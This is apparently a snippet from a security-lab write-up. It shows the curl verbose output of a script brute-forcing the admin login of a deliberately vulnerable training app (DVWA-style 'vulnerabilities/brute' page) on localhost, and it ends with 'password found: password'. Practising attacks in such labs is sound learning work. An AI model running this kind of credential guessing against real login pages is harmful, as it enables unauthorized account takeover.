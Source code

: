 ```
...

 🥲 trying password: 12345678 but failed.
...
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 14 Feb 2022 10:06:29 GMT
< Server: Apache/2.4.25 (Debian)
< Expires: Tue, 23 Jun 2009 12:00:00 GMT
< Cache-Control: no-cache, must-revalidate
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 4384
< Content-Type: text/html;charset=utf-8
< 
{ [4384 bytes data]
100  4384  100  4384    0     0   2180      0  0:00:02  0:00:02 --:--:--  2188
* Connection #0 to host localhost left intact

 🥲 trying password: qwerty but failed.
using user: admin and password: password
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 127.0.0.1:8086...
* Connected to localhost (127.0.0.1) port 8086 (#0)
> GET /vulnerabilities/brute/?username=admin&password=password&Login=Login HTTP/1.1
> Host: localhost:8086
> User-Agent: curl/7.77.0
> Accept: */*
> Cookie: PHPSESSID=1ugiu9votgrabahngfga89nt66; security=medium
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 14 Feb 2022 10:06:32 GMT
< Server: Apache/2.4.25 (Debian)
< Expires: Tue, 23 Jun 2009 12:00:00 GMT
< Cache-Control: no-cache, must-revalidate
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 4422
< Content-Type: text/html;charset=utf-8
< 
{ [4422 bytes data]
100  4422  100  4422    0     0   330k      0 --:--:-- --:--:-- --:--:--  863k
* Connection #0 to host localhost left intact

 🎉 password found: password
```

---